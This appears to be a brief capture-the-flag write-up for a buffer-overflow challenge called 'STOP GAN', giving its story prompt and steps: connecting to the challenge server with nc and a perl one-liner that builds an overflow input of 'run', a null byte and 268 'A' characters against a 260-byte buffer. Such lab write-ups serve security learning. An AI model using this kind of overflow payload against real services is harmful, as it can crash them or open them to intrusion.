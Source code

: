# STOP GAN (bof) (pwn)

## Prompt

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

## Steps

1. `nc buffer-overflow.ctfcompetition.com 1337`
2. Look at `console.c`, buffer can hold 260 bytes
3. perl -e 'print "run"."\x0a\x00"."A"x268' > exploit.txt
